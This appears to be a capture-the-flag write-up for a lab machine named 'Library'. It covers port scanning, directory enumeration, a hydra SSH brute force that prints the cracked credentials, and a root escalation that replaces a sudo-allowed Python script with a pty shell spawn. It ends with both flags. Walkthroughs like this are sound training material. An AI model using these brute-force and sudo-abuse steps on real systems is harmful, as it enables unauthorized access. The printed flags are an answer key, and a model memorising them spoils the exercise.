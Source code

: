 # Library

## Links 
- 10.10.132.204/



## Port Scanning
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   51.13 ms  10.17.0.1
2   ... 4
5   173.88 ms 10.10.132.204

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.69 seconds

```
- It seem there is a ssh port there but nothing serious found!

## Directory Enum
```sh
gobuster dir -u http://10.10.132.204 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.204
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/images               (Status: 301) [Size: 315] [--> http://10.10.132.204/images/]
/index.html           (Status: 200) [Size: 5439]
/robots.txt           (Status: 200) [Size: 33]
/server-status        (Status: 403) [Size: 301]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================


```
- If we go to the url `http://10.10.132.204/robots.txt`
```sh
User-agent: rockyou 
Disallow: /

```
- In this hint we can assume that we have to bruteFroce the name `meliodas` with the in built `rockyou` file
- we can use `hydra`

## Webpage
- After trying to get into ` http://10.10.132.204` this
- we found a name `(meliodas)` who worte a blog on that website
- Lets assume it is a username for ssh
- Now we need a password


## BruteFrocing the ssh server
```sh
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt -t 6 ssh://10.10.132.204

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-13 20:35:02
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344399 login tries (l:1/p:14344399), ~2390734 tries per task
[DATA] attacking ssh://10.10.132.204:22/
[STATUS] 66.00 tries/min, 66 tries in 00:01h, 14344333 to do in 3622:19h, 6 active
[STATUS] 42.00 tries/min, 126 tries in 00:03h, 14344273 to do in 5692:11h, 6 active
[22][ssh] host: 10.10.132.204   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-13 20:40:28

```
- `login: meliodas   password: iloveyou1`
## Resource
- Username - `meliodas`
- Password- `iloveyou1`

## SSH remote Login
```sh
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt 
6d488cbb3f111d135722c33cb635f4ec

```
- `sudo -l`
```sh
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
```sh
meliodas@ubuntu:~$ ls -al
total 40
drwxr-xr-x 4 meliodas meliodas 4096 Aug 24  2019 .
drwxr-xr-x 3 root     root     4096 Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3771 Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4096 Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4096 Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
```
- bak.py is write protected
- lets make a copy of bak.py and remove the original one to avoid the write protection

```sh
meliodas@ubuntu:~$ cp bak.py bak.py.org
meliodas@ubuntu:~$ rm /home/meliodas/bak.py
rm: remove write-protected regular file '/home/meliodas/bak.py'? yes
meliodas@ubuntu:~$ ls
bak.py.org  user.txt

```
```sh
echo 'import pty; pty.spawn("/bin/sh")' > bak.py

meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/sh")' > bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
bak.py	bak.py.org  user.txt
# pwd
/home/meliodas
# cd ..
# cd ..
# ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
# cd  root
# ls
root.txt
# cat root.txt 
e8c8c6c256c35515d1d344ee0488c617


```
## Flags
- User = `6d488cbb3f111d135722c33cb635f4ec`
- ROOT = `e8c8c6c256c35515d1d344ee0488c617`
